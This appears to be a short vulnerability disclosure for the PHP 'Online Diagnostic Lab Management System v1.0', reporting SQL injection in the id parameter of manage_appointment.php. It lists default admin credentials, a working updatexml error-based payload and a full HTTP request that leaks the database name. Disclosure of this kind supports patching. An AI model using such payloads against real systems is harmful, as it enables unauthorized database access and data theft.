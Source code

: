 # Online Diagnostic Lab Management System v1.0 by oretnom23 has SQL injection

BUG_Author: SupZcc

Login account: admin/admin123 (Super Admin account)

Login account: cblake@sample.com/cblake123 (General account)

vendors: https://www.sourcecodester.com/php/15129/online-diagnostic-lab-management-system-php-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /odlms/appointments/manage_appointment.php?id=

Vulnerability location: /odlms/appointments/manage_appointment.php?id=,id

dbname=odlms_db,length=8

[+] Payload: /odlms/appointments/manage_appointment.php?id=5%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ // Leak place ---> id

```sql
GET /odlms/appointments/manage_appointment.php?id=5%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=5g4g4dffu1bkrg9jm7nr42ori2
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/191254468-6ac0845e-a8b5-4489-af75-cb6ae25a257e.png)
